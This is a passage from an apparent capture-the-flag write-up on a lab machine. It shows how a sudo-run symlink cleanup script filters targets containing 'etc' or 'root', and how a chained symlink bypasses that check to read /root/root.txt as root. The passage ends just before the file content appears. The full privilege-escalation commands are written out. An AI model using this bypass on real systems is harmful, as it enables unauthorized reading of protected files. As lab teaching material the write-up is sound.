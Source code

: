 We can't read a link that contains `etc` or `root` in the target directory
```bash
# ...
if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
```

If the `CHECK_CONTENT` environment variable is `true` we have a **privileged file read** on the symlink we pass as an argument
```bash
# ...
QUAR_DIR="/var/quarantined"
# ...
if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
	# ...
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

We want to read `root.txt` through a symbolic link but this format will fail as the target can't have `root` in its path
```bash
/home/bob/flag_link -> /root/root.txt
```

But if we **proxy** the symbolic link the check will pass
```bash
# flag_link doesn't have root in its path!
/home/bob/proxy_link.png -> /home/bob/flag_link -> /root/root.txt
```

After a bit of headache I learned that `Ubuntu` has some [symlink restrictions](https://wiki.ubuntu.com/Security/Features#Symlink_restrictions){:target="_blank"}{:rel="noopener noreferrer"}. Our symlink chain won't be followed if it's in a world writable directory like `/tmp`! 

We can see that it's enabled with `sysctl` thanks to [this stack overflow post](https://unix.stackexchange.com/questions/336625/symbolic-link-not-working-as-expected-when-changes-user){:target="_blank"}{:rel="noopener noreferrer"}
```bash
bob@linkvortex:~$ sysctl fs.protected_symlinks
fs.protected_symlinks = 1
```

Let's grab the `root.txt` by creating our symlinks in `bob`'s home directory
```bash
bob@linkvortex:~$ ln -s /root/root.txt flag
bob@linkvortex:~$ ln -s $(pwd)/flag proxy.png
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh proxy.png 
Link found [ proxy.png ] , moving it to quarantine
Content:
```
